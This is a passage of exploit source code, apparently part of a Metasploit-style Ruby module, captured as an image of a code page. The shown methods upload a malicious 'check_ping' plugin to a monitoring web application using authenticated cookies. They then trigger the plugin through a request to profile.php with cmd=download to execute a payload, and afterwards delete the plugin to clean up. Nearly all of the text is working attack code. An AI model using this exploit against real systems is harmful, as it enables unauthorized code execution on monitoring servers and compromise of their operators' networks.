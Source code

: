         # upload payload
        res = send_request_cgi({
          'method' => 'POST',
          'uri' => @monitoring_plugins_url,
          'cookie' => @auth_cookies,
          'ctype' => "multipart/form-data; boundary=#{post_data.bound}",
          'data' => post_data.to_s
        })

        unless res
          fail_with Failure::Unreachable, 'Upload failed'
        end

        unless res.code == 200 && res.body.include?('New plugin was installed successfully')
          fail_with Failure::Unknown, 'Failed to upload plugin.'
        end

        @plugin_installed = true
      end

      # This request will timeout. It has to, for the exploit to work.
      def execute_payload
        print_status('Executing plugin...')
        send_request_cgi({
          'uri' => normalize_uri(target_uri.path, 'includes', 'components', 'profile', 'profile.php'),
          'method' => 'GET',
          'cookie' => @auth_cookies,
          'vars_get' => { 'cmd' => 'download' }
        }, 0)
      end

      def cleanup
        return unless @plugin_installed

        print_status("Deleting malicious 'check_ping' plugin...")
        res = send_request_cgi({
          'uri' => @monitoring_plugins_url,
          'method' => 'GET',
          'cookie' => @auth_cookies,
          'vars_get' => {
            'delete' => 'check_ping',
            'nsp' => @nsp
          }
        })

        unless res
          print_warning("Failed to delete the malicious 'check_ping' plugin: Connection failed. Manual cleanup is required.")
          return
        end
